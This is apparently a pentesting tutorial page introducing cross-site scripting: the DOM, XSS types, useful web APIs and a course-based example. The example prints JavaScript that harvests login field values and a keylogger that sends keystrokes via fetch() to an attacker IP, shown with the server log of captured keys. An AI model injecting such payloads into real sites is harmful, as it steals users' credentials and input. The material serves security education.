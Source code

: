```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# XSS 101

{% hint style="info" %}
Cross-Site Scripting (XSS) is a vulnerability where an attacker injects malicious scripts into web pages viewed by other users, typically through input fields or URL parameters.
{% endhint %}

{% hint style="danger" %}
This can lead to the theft of cookies, session tokens, or other sensitive data, and can also allow attackers to perform actions on behalf of the user or deface web pages.
{% endhint %}

{% hint style="success" %}
Sanitize and escape user inputs, use Content Security Policy (CSP) headers, and validate input on both client and server sides to prevent unauthorized script execution.
{% endhint %}

## General Info

In layman's terms when a web page is loaded, the browser processes its HTML code, and creates a [**Document Object Model (DOM)**](https://developer.mozilla.org/en-US/docs/Web/API/Document\_Object\_Model) of the page, aka **DOM tree** (Figure1).

<figure><img src="../../../../.gitbook/assets/html2dom.png" alt=""><figcaption><p>Figure 1: The HTML to DOM process.</p></figcaption></figure>

JavaScript is used to access and modify all of the DOM's elements in order to create dynamic HTML content. **XSS's goal is to inject JavaScript code for accessing and/or modifying the page's DOM**. For instance, if our goal was to modify the page's header (`h1`) element, we could do this using JavaScript.

```javascript
// modifying the h1 element
document.querySelector('h1').textContent = 'Hello, DOM!';
```

## XSS Types

There are mainly two XSS classifications (Figure 2):

1. Based on the level of the payload's persistence: [**Reflected**](reflected.md) vs. [**Stored**](stored.md).
2. Based on which location the payload is outputted: **Server** vs. [**Client**](dom-based.md) (_aka_ _**DOM-based**_).&#x20;

<figure><img src="../../../../.gitbook/assets/xss_classification.png" alt=""><figcaption><p>Figure 2: XSS classifications.</p></figcaption></figure>

{% hint style="info" %}
* [Don't use `alert()`](https://portswigger.net/research/alert-is-dead-long-live-print), but rather `print()` or `prompt()`.
* Check for **HTML injection** first and then for XSS.
{% endhint %}

## Web APIs

There are many built-in [web APIs](https://developer.mozilla.org/en-US/docs/Web/API), but the following are the most useful from an XSS-standpoint.

<table><thead><tr><th width="132">API</th><th>Description</th></tr></thead><tbody><tr><td><a href="https://developer.mozilla.org/en-US/docs/Web/API/Console_API"><code>console</code></a></td><td>Used for <strong>debugging</strong> tasks, such as logging messages (<code>console.log</code>).</td></tr><tr><td><a href="https://developer.mozilla.org/en-US/docs/Web/API/Window"><code>window</code></a></td><td>Represents a window containing a DOM object. The <code>document</code> property points to the DOM document loaded in that window. Some useful properties are <code>localStorage</code>, <code>location</code>, and <code>alert</code>.</td></tr><tr><td><a href="https://developer.mozilla.org/en-US/docs/Web/API/Document"><code>document</code></a></td><td>Represents any web page loaded in the browser and serves as an entry point in the web page's content, which is the DOM tree. This is <strong>the most effective interface for exploiting an XSS flaw</strong>.</td></tr><tr><td><a href="https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API"><code>fetch</code></a></td><td>Allows <strong>fetching local and remote resources</strong>. It is <strong>non-blocking</strong>, i.e., the UI won't be locked up while the request is made and the response is returned. It does not return the data right away, instead, it <strong>returns a promise</strong> to complete the execution. To access the response, we need to use the <code>then</code> method and pass in a function to execute when the response is available.</td></tr></tbody></table>

## Example

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

We have an app which contains a login form and our goal is to extract the `username` and `password` field values. We can use the `document` and the `console` APIs to achieve that (Figure 3).

{% hint style="info" %}
In HTML, text boxes are created using the [`input`](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/input) tag.
{% endhint %}

```javascript
// save the returned array into a variable
let inputs = document.getElementsByTagName("input")
// loop through the elements and extract their value
for (let input of inputs) {
  // log each value to the console
  console.log(input.value)
```

<figure><img src="../../../../.gitbook/assets/web_xss_101_1.png" alt=""><figcaption><p>Figure 3: Extracting the values of the targeted fields.</p></figcaption></figure>

We might also want to create a custom keylogger to extract information (Figure 4).

```javascript
// a function the logs keypresses to the console
function logKey(event){
    console.log(event.key)
}
// execute the function every time a key is pressed
document.addEventListener('keydown', logKey);
```

<figure><img src="../../../../.gitbook/assets/web_xss_101_2.png" alt=""><figcaption><p>Figure 4: Creating a custom keylogger.</p></figcaption></figure>

If we send the above script to our target the keystrokes will be logged into their browser's console, but we won't have access to it. We can modify our script and use the `fetch` API to exfiltrate the data.

```javascript
// a function the sents keypresses to the our server via a GET request
function logKey(event){
    fetch("http://192.168.45.214/k?key=" + event.key);
}
// execute the function every time a key is pressed
document.addEventListener('keydown', logKey);
```

```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.168.101 - - [04/Aug/2024 10:21:55] code 404, message File not found
192.168.168.101 - - [04/Aug/2024 10:21:55] "GET /k?key=I HTTP/1.1" 404 -
192.168.168.101 - - [04/Aug/2024 10:21:55] code 404, message File not found
192.168.168.101 - - [04/Aug/2024 10:21:55] "GET /k?key= HTTP/1.1" 404 -
192.168.168.101 - - [04/Aug/2024 10:21:55] code 404, message File not found
192.168.168.101 - - [04/Aug/2024 10:21:55] "GET /k?key=L HTTP/1.1" 404 -
192.168.168.101 - - [04/Aug/2024 10:21:56] code 404, message File not found
192.168.168.101 - - [04/Aug/2024 10:21:56] "GET /k?key=i HTTP/1.1" 404 -
<SNIP>
```
